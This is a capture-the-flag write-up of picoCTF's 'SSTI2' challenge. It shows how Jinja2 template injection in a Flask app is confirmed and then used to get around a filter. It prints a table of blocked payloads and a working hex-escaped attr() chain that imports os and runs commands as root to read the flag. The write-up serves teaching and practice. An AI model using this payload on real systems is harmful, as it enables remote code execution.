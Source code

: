 # **Write-Up: SSTI2 (Server-Side Template Injection - Filter Bypass)**  

## **Challenge Overview**  

### **Challenge Name:** SSTI2  
### **Category:** Web Exploitation  
### **Description:**  

The challenge presents a web application where users can post announcements. According to the description, the developer attempted to secure the application by **sanitizing input** to remove potentially dangerous characters. Despite this, our goal is to identify a way to bypass the filtering mechanisms and exploit **Server-Side Template Injection (SSTI)** to execute commands on the server and retrieve the flag.  

---

## **Step 1: Identifying SSTI Vulnerability**  

### **Initial Testing for SSTI Execution**  

To determine if the application was vulnerable to SSTI, we started by injecting a basic mathematical expression:  

```
{{ 7 * 7 }}
```  

If the input is being processed by a template engine, the expected output is `49`.  

**Result:**  

```
49
```  

This confirms that the input is being interpreted as a template expression, meaning the application is vulnerable to **SSTI**.

Next, we tested whether loops could be executed:  

```
{% for item in ("a", "b", "c") %}{{ item }}{% endfor %}
```  

**Result:**  

```
abc
```  

This indicates that **loop constructs** are also functional, but further exploitation attempts were met with restrictions.

---

## **Step 2: Analyzing Web Application Firewall (WAF) Protections**  

Upon further testing, we identified that the application implemented a **Web Application Firewall (WAF)** to block common SSTI attack payloads. The WAF detected and blocked several typical techniques used to access sensitive objects and execute system commands.  

### **Blocked Techniques**  

| Attempted Payload | Result |
| --- | --- |
| `{{ self }}` | `<TemplateReference None>` (Limited context) |
| `{{ config.items() }}` | Blocked |
| `{{ request.application }}` | Blocked |
| `{{ os.system('ls') }}` | Blocked |
| `{{ subprocess.Popen('ls') }}` | Blocked |
| `{{ open('/etc/passwd').read() }}` | Blocked |
| `{{ getattr(1, "__class__") }}` | Blocked |
| `{{ __import__("os").system("ls") }}` | Blocked |
| `{{ request.__globals__['os'].system("ls") }}` | Blocked |
| `{{ __import__('base64').b64decode(...) }}` | Blocked |

### **Observations:**  

- **Direct access to attributes (`.`) was blocked**, preventing calls like `__class__`, `__dict__`, `mro`, or `subclasses()`.  
- **Common SSTI exploit vectors (`config`, `globals()`, `builtins`) were restricted.**  
- **Direct function execution (`exec()`, `eval()`, `os.system()`, `subprocess.Popen()`) was prevented.**  
- **Obfuscation attempts using Base64, Hex, and URL Encoding (`%XX`) were detected and blocked.**  

Given these restrictions, it was necessary to find an alternative way to access **Python’s built-in functions** without directly invoking `__globals__` or `__builtins__`.

---

## **Step 3: Developing a WAF Bypass Strategy**  

To achieve **remote code execution (RCE)**, we needed to:  

1. **Access Python built-ins without using `globals()` or `builtins`.**  
2. **Import and execute system commands without explicitly calling `import` or `os.system()`.**  

We determined that an **attribute-based filter bypass** could be used to circumvent the WAF’s restrictions.

---

## **Step 4: Crafting the Final Payload**  

The following payload successfully bypassed the WAF and executed system commands:  

```
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}
```  

**Result:**  

```
uid=0(root) gid=0(root) groups=0(root)
```  

This confirmed that we successfully achieved **RCE (Remote Code Execution)**.

---

## **Step 5: Understanding the Bypass Mechanism**  

### **Accessing Flask Application Context**  
- `request|attr('application')` retrieves the Flask **application context**.  
- The Flask application context contains references to global objects, allowing access to sensitive attributes.  

### **Bypassing `globals()` Restriction**  
- `attr('\x5f\x5fglobals\x5f\x5f')` uses hexadecimal encoding for `__globals__`, avoiding WAF detection.  
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')` safely retrieves `__builtins__`.  

### **Importing `os` Without Using `import`**  
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')` dynamically imports the `os` module without triggering WAF rules.  

### **Executing Commands Without `system()`**  
- `attr('popen')('id')|attr('read')()` executes `os.popen("id")`, an alternative to `os.system()`, which was blocked.  

This step-by-step approach allowed us to execute arbitrary system commands while completely bypassing the WAF.

---

## **Step 6: Extracting the Flag**  

### **Listing Files on the Server**  

To locate the flag file, we executed the following commands:  

```
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la /')|attr('read')() }}
```

```
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('find / -name flag* 2>/dev/null')|attr('read')() }}
```

This revealed the flag’s location:  

```
/challenge/flag
```

---

### **Reading the Flag File**  

```
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat /challenge/flag')|attr('read')() }}
```

**Result:**  

```
picoCTF{sst1_f1lt3r_byp4ss_060a5eb0}
